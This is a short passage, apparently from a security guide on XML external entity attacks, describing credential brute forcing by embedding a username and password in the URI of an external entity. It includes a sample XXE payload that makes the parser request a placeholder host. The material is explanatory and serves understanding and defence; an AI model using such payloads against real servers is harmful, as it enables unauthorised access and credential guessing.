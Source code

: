 ##### Brute Forcing

Once an attacker confirms that it is possible to perform a port scan, performing a brute force attack is a matter of embedding the `username` and `password` as part of the URI scheme (http, ftp, etc). For example the following :

```xml
<!DOCTYPE root [
 <!ENTITY user SYSTEM "http://username:password@example.com:8080">
]>
<root>&user;</root>
```
